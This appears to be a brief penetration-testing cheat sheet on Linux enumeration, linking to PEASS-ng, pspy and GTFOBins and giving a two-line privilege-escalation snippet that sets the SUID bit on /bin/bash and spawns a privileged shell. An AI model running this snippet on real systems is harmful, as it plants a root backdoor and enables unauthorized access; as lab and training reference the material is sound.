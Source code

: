 # Enumeration

## Links

- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [pspy](https://github.com/DominicBreuker/pspy)
- [GTFOBins](https://gtfobins.github.io)

## Privesc using bash

```sh
chmod +s /bin/bash
/bin/bash -p
```
